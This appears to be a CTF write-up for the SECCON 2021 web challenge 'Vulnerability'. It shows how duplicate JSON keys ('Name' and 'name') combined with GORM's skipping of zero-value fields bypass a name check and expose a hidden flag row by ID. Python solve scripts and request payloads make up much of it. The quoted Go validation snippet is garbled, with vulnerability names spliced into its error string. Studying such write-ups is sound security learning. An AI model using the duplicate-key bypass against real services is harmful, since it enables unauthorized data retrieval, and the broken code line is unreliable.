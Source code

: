 *2021-12-11*

#ctf-writeup 

Link: https://ctf.seccon.jp/

***

# Vulnerability
**Category: web**

## Description
How many vulnerabilities do you know?
https://vulnerabilities.quals.seccon.jp

## Method
The code is written in Go. This website also has two API Endpoints: a GET request to https://vulnerabilities.quals.seccon.jp/api/vulnerability will give you all the vulnerabilities in the database (except the flag), and a POST request to the same endpoint with the parameter `name=?` will give you the details about a specific vulnerability.

There is a vulnerability in the database that corresponds to the name of the flag. Unfortunately the name is set as an environment variable, so it is hidden.

## Basic POST Script
This script makes a request to get information about the SGAxe vulnerability:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "SGAxe"
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

It returns the following:

```json
200
{"Logo":"/images/sgaxe.png","URL":"https://cacheoutattack.com/"}
```

## General Thoughts
Since the description is: "How many vulnerabilities do you know?", there will likely be a vulnerability with Go, or possibly with Gin.

https://security.snyk.io/vuln/SNYK-GOLANG-GITHUBCOMGINGONICGIN-550031

It's also possible that we can use the way GORM runs queries. Supposedly, if the other fields in the query are blank, it will use the Model object to run the query.

The following query returns the Heartbleed object:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 1
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

While this one does not, because the ID does not match.

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 2
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)

```

The problem is that the Go code checks for fields being blank, or nil, through the following lines:

```go
if name, ok := json["Name"]; !ok || name == "" || name == nil {
    c.JSON(400, gin.H{"Error"","DROWN Attack","CCS Injection","httpoxy","Meltdown","Spectre","Foreshadow","MDS","ZombieLoad Attack","RAMBleed","CacheOut","SGAxe"]}: "no \"Name\""})
    return
}
```

## Solution
In order to solve this challenge we need to circumvent the `Name` check. However, the problem is that if we specify a name then we can not get the flag because the name would be added to the SQL query. Since we don't know the name, the query would not return any results.

We need to find a way to make the code think we are sending a name but not have it affect the query.

GORM, the query library used, has the following in it's documentation:
```
NOTE When querying with struct, GORM will only query with non-zero fields, that means if your field’s value is 0, '', false or other zero values, it won’t be used to build query conditions, for example...
```

This means that by making `Name` the empty string, a zero value in Go, then GORM will not evaluate it in the query.

The following JSON seems to work. By sending the name twice, one of them the empty string and the other not, the non-empty string will allow the `Name` check to pass, but the query itself will use the empty string, thus not evaluating it.

```json
{
    "Name": "a",
    "name": "",
}
```

Then, to specify the row containing the flag in the query we can use the `ID` column that was added by the `gorm.Model` when defining the `Vulnerability` struct.

```go
type Vulnerability struct {
    gorm.Model
    Name string
    Logo string
    URL  string
}
```
https://gorm.io/docs/models.html#Embedded-Struct

Flag was the 14th row added, so it's `ID` is 14.

Posting with the following JSON will retrieve the flag:
```json
{
    "Name": "a",
    "name": "",
    "ID": 14
}
```

```json
{"Logo":"/images/SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}.png","URL":"seccon://SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}"}
```

## Solve Script
```python
import requests

def main():
    HOST = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"

    json = {
        "Name": "a",
        "name": "",
        "ID": 14
    }

    r = requests.post(HOST, json=json)

    print(r.text)

main()
```

## Flag
`SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}`

***

